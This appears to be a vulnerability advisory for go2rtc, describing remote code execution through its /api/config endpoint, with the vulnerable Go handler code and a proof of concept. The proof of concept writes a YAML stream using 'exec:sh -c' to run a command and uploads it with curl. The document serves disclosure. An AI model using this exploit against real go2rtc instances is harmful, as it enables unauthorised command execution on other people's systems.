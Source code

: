 # Go2RTC Remote Code Execution

## 1.Description
The Go2RTC configuration management API endpoint (/api/config) contains an arbitrary configuration write vulnerability. Authenticated attackers can submit malicious YAML configurations through this endpoint, bypassing semantic validation and writing dangerous configurations to the system. When the system loads these configurations and accesses the associated streams, arbitrary system commands can be executed through the `exec:` protocol, leading to remote code execution (RCE).

## 2.Affected Versions
All versions of go2rtc that include the configuration API endpoint with the described behavior.

## 3. Root Cause
### 3.1 Fundamental Cause
The root cause of the vulnerability lies in the `configHandler` function in the `internal/api/config.go` file, which lacks semantic validation of configuration content. The system only validates the correctness of YAML syntax but does not check the security of the configuration content.

### 3.2 Vulnerable Code Analysis
```go
// Fragment of configHandler function in internal/api/config.go
case "POST", "PATCH":
    // Read raw user input without content validation
    data, err := io.ReadAll(r.Body)
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    if r.Method == "PATCH" {
        // Merge YAML without content validation
        data, err = mergeYAML(app.ConfigPath, data)
        if err != nil {
            http.Error(w, err.Error(), http.StatusBadRequest)
            return
        }
    } else {
        // Only validate YAML syntax, not content security
        if err = yaml.Unmarshal(data, map[string]any{}); err != nil {
            http.Error(w, err.Error(), http.StatusInternalServerError)
            return
        }
    }

    // Directly write unvalidated configuration file
    if err = os.WriteFile(app.ConfigPath, data, 0644); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
```

### 3.3 Execution Chain
1. Attacker sends malicious YAML configuration to `/api/config`
2. Server only validates YAML syntax, not content security
3. Malicious configuration is directly written to configuration file
4. System registers `exec:` protocol handler when loading new configuration
5. Command execution is triggered when user accesses stream

## 4.PoC
Step 1: Create malicious configuration
   ```malicious_config.yaml
   streams:
     malicious_stream: exec:sh -c "whoami>/tmp/poc1.txt"
   ```
Step 2: Upload malicious configuration
```
curl -X POST "http://localhost:1984/api/config" \
  -H "Content-Type: application/yaml" \
  -d "$(cat malicious_config1.yaml)" \
  -w "HTTP Status: %{http_code}\n"
```

## 5. Vulnerability Impact

- **Remote Code Execution**: Attackers can execute arbitrary system commands
- **Privilege Escalation**: Commands execute with Go2RTC process privileges
- **Persistent Access**: Configuration changes persist after system reboot
- **Data Leakage**: Access to sensitive system files and data
- **Service Denial**: Resource exhaustion commands can cause service disruption

